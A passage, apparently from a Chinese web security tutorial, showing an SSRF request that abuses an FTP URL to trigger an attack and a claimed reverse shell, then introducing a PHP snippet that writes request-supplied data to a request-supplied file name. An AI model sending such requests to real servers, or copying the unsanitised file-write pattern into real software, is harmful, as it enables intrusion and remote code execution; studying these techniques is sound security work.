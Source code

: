 最后，构造如下请求，触发攻击：

```plain
/ssrf.php?viewFile=ftp://aaa@192.168.43.247:23/123
```

[![](assets/1698897074-bb157a1a93d29095ec84acbbe9cb830f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-9298ae28-b2e5-1.png)

成功反弹 shell：

[![](assets/1698897074-8c6a4df95d06d0484c1c8c5ff7000999.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-92ee0e9a-b2e5-1.png)

假设有以下代码：

```plain
<?php
file_put_contents($_GET['file'], $_GET['data']);
```
